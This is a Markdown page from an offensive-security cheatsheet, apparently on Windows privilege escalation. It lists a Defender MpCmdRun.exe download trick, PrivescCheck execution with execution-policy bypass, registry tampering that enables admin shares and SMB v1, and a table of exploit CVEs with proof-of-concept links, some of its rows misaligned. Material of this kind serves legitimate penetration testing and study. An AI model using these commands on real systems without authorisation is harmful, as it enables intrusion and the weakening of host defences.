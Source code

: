 ```yaml
---
layout: post
title: privesc / win
category: 02-privesc
parent: cheatsheets
modified_date: 2024-12-04
permalink: /privesc/win
---
```


**Mitre Att&ck Entreprise**: [TA0002 - Execution](https://attack.mitre.org/tactics/TA0002/)

**Menu**
<!-- vscode-markdown-toc -->
* [dl](#dl)
* [escalation](#escalation)
* [tamper](#tamper)
	* [enable-shares](#enable-shares)
	* [enable-smb1](#enable-smb1)
* [xsploit](#xsploit)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

**Tools**

* [PrivescCheck](https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1)

![fancy_mindmaps_win_creds](/assets/images/win_22_privesc.jpg)

## <a name='dl'></a>download
* [/sys/powershell#transfer-http](/sys/powershell/transfer-http)
* [/dev/snippet#python-dl](/dev/snippet#python-dl)
* [juggernaut-sec](https://juggernaut-sec.com/windows-file-transfers-for-hackers/)
```sh
# download
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe -url <url> -path <local-path>
```

## <a name='escalation'></a>escalation

* [hacktricks.xyz](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
* [payloadallthethings]()

```sh
# download privescCheck.ps1
wget https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1

# extended execution + txt report
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME%"

# unquoted service path
accesschk /accepteula -uwdq "C:\Program Files\Unquoted Service Path"
accesschk /accepteula -uwdq "C:\Program Files (x86)\Windows Identity Foundation\v3.5\"
```


## <a name='tamper'></a>tamper

### <a name='enable-shares'></a>enable-shares
```powershell
# win10 tampering: PS allow administrative shares
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name LocalAccountTokenFilterPolicy -Value 1 
```

### <a name='enable-smb1'></a>enable-smb1
```powershell
# win10 tampering: PS enable SMB v1
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" SMB1 -Type DWORD -Value 1 –Force
```

## <a name='xsploit'></a>xsploit

<table class="sortable">
<col width="20%">
<col width="80%">
<thead>
<tr>
<th>Reference</th>
<th>OS</th>
<th>Service</th>
<th>PoC</th>
</tr>
</thead>
<tbody>
<tr>
	<td>CVE-2023-21768</td> 
	<td>Windows</td>
	<td>11 22H2</td>
	<td><ul>
	<li>CODENAME: LPE_AFD</li>
	POC: <a href="https://github.com/chompie1337/Windows_LPE_AFD_CVE-2023-21768"></a>
	<li>TEST: <a href=""></a></li>
	</ul></td>
</tr>
<tr>
	<td>CVE-2022-21882</td> 
	<td>Windows</td>
	<td>10 21H2 19044.1415</td>
	<td><ul>
	<li>CODENAME: win32k.sys</li>
	<li>POC: <a href="https://github.com/gdabah/win32k-bugs"></a></li>
	<li>TEST: <a href=""></a></li>
	</ul></td>
</tr>
<tr>
	<td>CVE-2021-1675</td> 
	<td>Windows</td>
	<td>PrintSpooler</td>
	<td><ul>
	<li>CODENAME: PrintNightMare</li>
	<li>POC: <a href="https://github.com/calebstewart/CVE-2021-1675"></a></li>
	<li>TEST: <a href="https://tryhackme.com/room/atlas"></a></li>
	</ul></td>
</tr>
<tr>
	<td>CVE-2021-22204</td>
	<td>LPE</td>
	<td>Linux</td>
	<td>Exiftool</td>
</tr>
<tr>
	<td>CVE-2021-3560</td>
	<td>Linux</td>
	<td>polkit</td>
	<td></td>
</tr>
<tr>
	<td>CVE-2021-3156</td>
	<td>Linux</td>
	<td>sudo</td>
	<td>CODENAME: Baron Samedit</td>
</tr>
<tr>
	<td>CVE-2020-0601</td>
	<td>Windows</td>
	<td>CryptoAPI</td>
	<td>CODENAME: CurveBall</td>
</tr>
<tr>
	<td>CVE-2020-16898</td>
	<td></td>
	<td>Windows</td>
	<td>cODENAME: Bad Neighor</td>
</tr>
<tr>
	<td>CVE-2020-11651</td>
	<td>SaltStack</td>
	<td></td>
    <td></td>
</tr>
<tr>
	<td>CVE-2020-1350</td>
	<td>Windows</td>
	<td>DNS</td>
	<td>CODENAME: SIGRed</td>
</tr>

</tbody>

</table>
<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
